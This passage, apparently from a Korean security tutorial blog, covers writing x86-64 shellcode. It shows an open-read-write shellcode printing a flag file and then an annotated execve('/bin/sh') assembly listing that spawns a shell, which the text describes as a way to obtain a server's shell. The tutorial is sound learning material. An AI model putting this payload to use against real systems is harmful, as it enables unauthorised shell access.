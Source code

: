 <br>

이제 컴파일을 하고 실행을 시켜보면

```bash
gcc -o orw orw.c -masm=intel
./orw
```

```bash
flag{this is open read write shellcode!}
\U
```

쉘 코드가 성공적으로 실행되어서 `"/tmp/flag"` 파일의 내용이 출력되었습니다.


<br>
<br>


### execve 쉘 코드

쉘을 띄우는 쉘 코드를 이용하면 서버의 쉘을 흭득할 수 있습니다.

#

**execve("/bin/sh", null, null)**

<img src="https://velog.velcdn.com/images/silvergun8291/post/c68db811-3aed-40c5-af13-41ecd19478d0/image.png">


**1. rdi**

`"/bin/sh"` → `2F 62 69 6E 2F 73 68`

`rdi = "/bin/sh"`

#

**2. rsi**

`null`

`rsi = 0x0`

#

**3. rdx**

`null`

`rdx = 0x0`

#

**4. rax**

`execve syscall` 번호는 `0x3b`

`rax = 0x3b`

```bash
mov rax, 0x68732f6e69622f               ; rax = "/bin/sh"
push rax				; "/bin/sh" 스택에 넣기
mov rdi, rsp				; rdi = "/bin/sh"
xor rsi, rsi				; rsi = 0x0 (null)
xor rdx, rdx				; rdx = 0x0 (null)
mov rax, 0x3b				; rax = 0x3b (execve)
syscall					; execve("/bin/sh", null, null)
```
